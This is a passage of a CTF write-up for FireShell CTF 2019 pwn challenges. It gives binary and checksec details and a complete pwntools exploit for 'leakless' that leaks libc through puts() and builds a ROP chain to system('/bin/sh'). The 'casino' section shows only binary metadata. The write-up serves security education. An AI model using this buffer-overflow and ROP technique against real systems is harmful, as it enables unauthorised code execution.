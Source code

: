 ## Pwn

### leakless

```
// file
leakless: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=3bdec1a89a0904139323ff129fcc60526bf290ca, for GNU/Linux 3.2.0, not stripped

// checksec
[*] '/tmp/tmp/fireshell-ctf-2019/pwn/leakless/src/leakless'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

雖然題目說 leakless，不過他有留 `puts()` 給我們用，所以透過 `puts()` 來 leak libc，透過簡單的 ROP 就能 get shell，exploit 如下:

```python
#!/usr/bin/python3
          
from pwn import *
          
r = process("./leakless")
          
puts_plt = 0x80490e0
alarm_got = 0x0804c014
feedme = 0x080492d3
          
payload = b"\xff"*(0x48+0x4) + p32(puts_plt) + p32(feedme) + p32(alarm_got)
r.send(payload)
libc = u32(r.recv(4)) - 0x0cd180
info(f"libc: {hex(libc)}")
binsh = libc + 0x192352
_system = libc + 0x045830
          
payload = b"\xff"*(0x48+0x4) + p32(_system) + p32(0) + p32(binsh)
                                       
r.send(payload)
r.interactive()
```

### casino

```
// file
casino:   ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=37ac91e33a2a6a4df59841a0c8f72cbda17335fe, for GNU/Linux 3.2.0, not stripped

// checksec
[*] '/tmp/tmp/fireshell-ctf-2019/pwn/casino/src/casino'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
